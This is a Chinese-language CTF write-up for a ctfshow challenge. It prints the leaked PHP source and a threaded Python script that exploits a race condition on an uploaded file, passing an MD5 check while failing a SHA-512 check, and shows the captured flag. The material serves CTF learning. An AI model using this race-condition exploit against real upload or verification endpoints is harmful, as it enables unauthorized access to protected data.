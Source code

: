 #### 红包题第六弹

==**对网上搜寻的题解进行一些勘误**==

实际上有fastcoll生成的相同的MD5值的文件仍然绕不过第一层的md5_file，因为新生成的两个文件的md5值才相同，而与源文件不同，**本题实际考察的是条件竞争**，通过并发编程实现先后两层的绕过

##### 信息收集

首先有hint提示，不是SQL注入，可以发现源码，于是使用dirmap扫描出来有网站备份文件，解压后，代码如下：

```php
function receiveStreamFile($receiveFile){
 
    $streamData = isset($GLOBALS['HTTP_RAW_POST_DATA'])? $GLOBALS['HTTP_RAW_POST_DATA'] : '';
 
    if(empty($streamData)){
        $streamData = file_get_contents('php://input');
    }
    if($streamData!=''){
        $ret = file_put_contents($receiveFile, $streamData, true);
    }else{
        $ret = false;
    }
    return $ret;
}
if(md5(date("i")) === $token){
	
	$receiveFile = 'flag.dat';
	receiveStreamFile($receiveFile);
	if(md5_file($receiveFile)===md5_file("key.dat")){
		if(hash_file("sha512",$receiveFile)!=hash_file("sha512","key.dat")){
			$ret['success']="1";
			$ret['msg']="人脸识别成功!$flag";
			$ret['error']="0";
			echo json_encode($ret);
			return;
		}

			$ret['errormsg']="same file";
			echo json_encode($ret);
			return;
	}
			$ret['errormsg']="md5 error";
			echo json_encode($ret);
			return;
} 

$ret['errormsg']="token error";
echo json_encode($ret);
return;
```

##### 阅读源码

首先有一个对token的判断，于是我们抓包看看，

![](D:\0-CTF\Documents\WP\images\ctfshow_红包题6_1.jpg)

发现确实有一个token，是对当前日期做了一个MD5的编码，可以用python实现，然后设置了一个receivefile为flag.dat，然后调用`receiveStreamFile($receiveFile);`，可以发现是需要用php://input获取文件流，然后返回一个文件，接下来需要自己传上去的文件与已存在的`key.dat`的MD5要一致，sha512不一致，即可打印出flag

##### 解题

那么我们的思路是，首先获得key.dat，首先访问一下这个文件，emmm，果然直接下载了，那么第一层的绕过我们直接就使用了`key.dat`文件，第二层的sha1值我们随便上传一个字符串即可，所以我们需要**并发编程，将$receiveFile中的内容在极短时间内进行替换**，这里我们可以编写一个python脚本来进行解题。

payload:

```python
import requests
import time
import hashlib
import threading

#这里为什么用分钟数生成：因为通过抓包发现改变分钟后token值才会变化
i=str(time.localtime().tm_min)
#生成token
m=hashlib.md5(i.encode()).hexdigest()
url="http://063e4649-b8da-4090-8a6b-da6b11fa5f07.challenge.ctf.show/check.php?token={}&php://input".format(m)

def POST(data):
    try:
        r=requests.post(url,data=data)
        if "ctfshow" in r.text:
            print(r.text)
            pass
        # print(r.text)
        pass
    except Exception as e:
        print("somthing went wrong!")
        pass
    pass

with open('key.dat','rb') as t:
    data1=t.read()
    pass
for i in range(50):
    threading.Thread(target=POST,args=(data1,)).start()
for i in range(50):
    data2='emmmmm'
    threading.Thread(target=POST,args=(data2,)).start()
```

得出：

```
{"success":"1","msg":"\u4eba\u8138\u8bc6\u522b\u6210\u529f!ctfshow{6f98bbcc-82e2-4c3e-a46e-0a8f8ad403cd}","error":"0","errormsg":""}
```

